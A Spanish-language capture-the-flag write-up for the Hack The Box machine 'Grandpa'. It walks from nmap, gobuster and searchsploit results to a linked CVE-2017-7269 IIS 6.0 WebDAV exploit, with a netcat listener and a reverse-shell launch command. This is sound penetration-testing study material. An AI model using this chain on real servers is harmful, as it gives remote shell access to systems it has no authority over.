 # Grandpa ![Avatar](https://www.hackthebox.eu/storage/avatars/381683fd107da11f1dc916401ae8aee0_thumb.png)

## Initial Scan
```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Fri, 21 Aug 2020 19:33:37 GMT
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
```
## Enum
Empecemos por el servicio HTTP :v
#### Gobuster
```
/_private (Status: 403)
/_vti_pvt (Status: 403)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_bin (Status: 301)
/_vti_txt (Status: 403)
/aspnet_client (Status: 403)
/images (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
```
### Searchsploit
Con el scaneo de nmap vemos la versión del servicio web,si buscamos vulnerabilidades conocidas del servicio encontramos las siguientes
```
----------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                   |  Path
----------------------------------------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS 4.0/5.0/6.0 - Internal IP Address/Internal Network Name Disclosure                                 | windows/remote/21057.txt
Microsoft IIS 5.0/6.0 FTP Server (Windows 2000) - Remote Stack Overflow                                          | windows/remote/9541.pl
Microsoft IIS 5.0/6.0 FTP Server - Stack Exhaustion Denial of Service                                            | windows/dos/9587.txt
Microsoft IIS 6.0 - '/AUX / '.aspx' Remote Denial of Service                                                     | windows/dos/3965.pl
Microsoft IIS 6.0 - ASP Stack Overflow Stack Exhaustion (Denial of Service) (MS10-065)                           | windows/dos/15167.txt
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                         | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                      | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                      | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                  | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (PHP)                                                    | windows/remote/8765.php
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                         | windows/remote/19033.txt
----------------------------------------------------------------------------------------------------------------- ---------------------------------
```
Dado que no tenemos un FTP server activo en la máquina y no parece haber PHP se nos reducen los candidatos significativamente, no hemos encontrado aun ningun formulario de login asi que el mas indicado probablemente sea el 41738.py
Buscamos un exploit y encontramos el siguiente:
```
https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
```
A partir de aquí el resto es sencillo
*1 Abrimos un listener con netcat
```
nc -lvnp 4444
```

* 2. Lanzamos el exploit (Este a veces falla, si tras 3 intentos sigue sin ir vota para reset
```
python2.7 revshell.py 10.10.10.14 80 LHOST LPORT
```
* 3. Disfruta de tu shell como authority network
```
c:\windows\system32\inetsrv>whoami
nt authority\network service
```

